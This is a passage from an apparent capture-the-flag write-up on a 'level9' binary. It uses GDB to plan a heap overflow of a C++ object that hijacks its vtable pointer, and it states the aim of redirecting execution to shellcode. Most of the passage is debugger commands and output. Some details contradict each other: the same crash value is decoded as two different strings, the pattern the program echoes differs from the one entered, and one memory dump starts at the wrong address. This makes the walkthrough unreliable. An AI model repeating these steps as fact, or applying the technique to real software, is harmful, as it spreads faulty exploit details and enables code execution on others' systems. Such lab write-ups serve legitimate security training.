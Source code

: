 ## The Vtable Hijacking Strategy

### 8. Understanding Virtual Function Calls
```bash
# Examining the vtable structure
(gdb) x/2wx 0x08048848  # vtable address
0x8048848 <_ZTV1N+8>:   0x0804873a      0x0804874e
#                       operator+       operator-

# Normal virtual function call mechanism:
# 1. Load obj2 pointer (0x0804a078)
# 2. Load vtable pointer from obj2[0] (0x08048848)  
# 3. Load function pointer from vtable[0] (0x0804873a = operator+)
# 4. Call function
```

**Vtable Hijacking Concept:**
- **If obj2's vtable pointer is corrupted**: Virtual function call redirected
- **setAnnotation() overflow**: Can reach obj2's memory at 112-byte offset
- **Attack strategy**: Overwrite obj2's vtable pointer with fake vtable address
- **Fake vtable**: Point to shellcode for arbitrary code execution

### 9. Finding the Overflow Offset
```bash
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ab7Aa8Aa9Ae0Ae1Ae2Ae3Ae4Ae'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 <main+142>: mov    (%eax),%edx
```

**Crash Analysis:**
```bash
(gdb) print $eax
$1 = 1094083649  # = "A6dA" in little-endian

# Pattern position analysis:
# "A6dA" appears at position 112 in De Bruijn sequence
# This confirms: 112 bytes overflow reaches obj2's vtable pointer!
```

**Offset Confirmation:**
- **Segfault at vtable dereference**: Program crashes when trying to use corrupted vtable
- **"Aa5A" = 1094083649**: Confirms corruption of obj2's vtable pointer
- **112-byte offset**: Exact distance from obj1 start to obj2's vtable pointer

## Shellcode Injection Strategy

### 10. Understanding the Memory Layout for Exploitation
```bash
# Testing controlled overflow
(gdb) run $(python -c 'print "A"*112 + "BBBB"')
Breakpoint 1, 0x0804867c in main ()

(gdb) x/4wx 0x0804a008  # obj1 after overflow
0x804a00c:  0x41414141  0x41414141  0x41414141  0x41414141
# obj1 completely overwritten with 'A's

(gdb) x/4wx 0x0804a078  # obj2 after overflow  
0x804a078:  0x42424242  0x00000006  0x00000000  0x00000000
# obj2's vtable pointer overwritten with "BBBB" (0x42424242)!
```
